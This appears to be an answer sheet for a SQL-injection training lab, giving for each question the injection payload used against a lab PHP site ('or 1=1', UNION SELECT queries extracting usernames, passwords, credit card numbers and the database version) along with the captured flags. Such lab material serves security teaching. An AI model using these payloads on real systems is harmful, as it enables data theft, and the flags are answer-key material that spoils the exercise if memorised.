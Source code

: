         - 10.100.28.48/cases/productsCategory.php?category=1 or 1=1
        - scroll down --> kXV98Ss9HxfDagq0omnE

2. Tables

        How many tables are able to be identified through Injection of the web database? 
        - 8

3. Admin creds

        On the DNLA site identify the flag using the Categories page. To answer input the characters inside the flag.
        - http://10.100.28.48/cases/productsCategory.php?category=1%20UNION%20SELECT%20username,password,3%20from%20sqlinjection.members#
        - Boss, looq5vCaNhHqtBkOEy5r


4. Products

        Utilizing the search page on DNLA, identify the flag. To answer input only the characters inside the flag
        - ram' or 1='1
        - kXV98Ss9HxfDagq0omnE

5. SQL Version

        Identify the version of the database that DNLA is utilizing
        - =ram' UNION SELECT @@version,3#
        -10.1.48-MariaDB-0ubuntu0.18.04.1

6. Credit Card

        Utilizing the input field on DNLA budget page, find the flag associated with credit cards. To answer the question enter only the characters inside the flag.
        - http://10.100.28.48/cases/productsCategory.php?category=1%20UNION%20SELECT%20creditcard_number,2,3%20from%20sqlinjection.payments#
        - atQ7GR3Crwrr7R8rPLuJ
7. ID Search

        Find the flag associated with id 1337.
        - http://10.100.28.48/cases/productsCategory.php?category=1%20UNION%20SELECT%20data,mime,id%20from%20sqlinjection.share4#
        - decode from base664 -> etc5J7ckkFCX88oI4ypw 
8. Create an admin user 
        Using the /cases/register.php page on DNLA create a user with admin permissions, ensuring the firstname is set to Hacker. Once created log in to get the flag.
